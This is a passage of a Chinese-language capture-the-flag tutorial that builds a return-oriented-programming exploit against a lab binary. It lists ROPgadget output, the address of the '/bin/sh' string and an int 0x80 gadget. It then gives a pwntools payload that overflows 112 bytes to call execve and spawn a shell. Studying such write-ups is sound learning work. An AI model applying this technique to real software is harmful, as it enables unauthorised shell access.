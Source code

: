 	0x08049a94 : pop ebx ; pop esi ; ret

	0x080481c9 : pop ebx ; ret

	0x080d7d3c : pop ebx ; ret 0x6f9

	0x08099c87 : pop ebx ; ret 8

	0x0806eb91 : pop ecx ; pop ebx ; ret

	0x0806336b : pop edi ; pop esi ; pop ebx ; ret

	0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret

	0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret

	0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret

	0x0805c820 : pop esi ; pop ebx ; ret

	0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret

	0x0807b6ed : pop ss ; pop ebx ; ret

这里，我选择

	0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret

这个可以直接控制其它三个寄存器。

此外，我们需要获得 /bin/sh 字符串对应的地址。

0x080be408 : /bin/sh

可以找到对应的地址，此外，还有 int 0x80 的地址，如下

	~/Desktop$ ROPgadget --binary rop --only 'int'

	Gadgets information

	============================================================

	0x08049421 : int 0x80

	0x080938fe : int 0xbb

	0x080869b5 : int 0xf6

	0x0807b4d4 : int 0xfc

同时，也找到对应的地址了。

下面就是对应的 payload，其中 0xb 为 execve 对应的系统调用号。

payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh,
int_0x80])

现在我们还要拿到的就是溢出的位置，溢出填充空间为112.

	Exp

	#!/usr/bin/env python

	from pwn import *
